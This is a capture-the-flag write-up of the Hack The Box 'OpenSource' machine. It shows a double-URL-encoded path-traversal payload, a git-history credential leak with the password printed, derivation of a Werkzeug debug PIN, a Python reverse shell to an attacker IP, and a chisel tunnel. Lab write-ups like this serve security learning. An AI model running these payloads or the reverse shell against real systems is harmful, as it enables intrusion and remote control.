 Hack The Box : OpenSource

Nmap scan

```bash
22/tcp   open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http    Werkzeug/2.1.2 Python/3.10.3
```
usual ports are open

Check the web application running on port 80 
their is a option for downloading source code of the application

after downloading and analyzing the source code we found vuln in uploads endpoint
which is an LFI but their is an validation for path travesel we need to get bypass the validation
using double url encoding and also we found a creds from git 
```bash
git branch -a
git log dev --oneline
git show a76f8f7
```
```
 "http://dev01:Soulless_Developer#2022@10.10.10.128:5187/"
```

```python
@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))
```

set payload for reading /etc/passwd

```
%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F/etc/passwd
```

their is also a anothor vuln. it is an file upload through lfi it can be lead to overwrite the source code
for getting a shell 'RCE'
```
..//..//app/app/view.py
```
but we take the shell through python debug console
we know from the begining the nmap showing the http is a python server and  Werkzeug/2.1.2 is a gateway
In the webapplication the werkzeug enable the debug console by default

Generate the debug console pin using LFI
               
```bash              
/proc/net/arp

/sys/class/net/eth0/address

/proc/sys/kernel/random/boot_id

/proc/self/cgroup
````

payload for shell

```python
python3 -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.48",9005));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")"
```
we get the shell inside the docker container

enumerating ip
```
for ip in $(seq 1 255); do nc -v -n -z -w 1 172.17.0.$ip 3000; done
```
172.17.0.1:3000 is open on docker port

forwarding the port 3000 into our local  machine using chisel

```
chisel client 10.10.16.48:9005 R:5000:socks
```

dev01@opensource.htb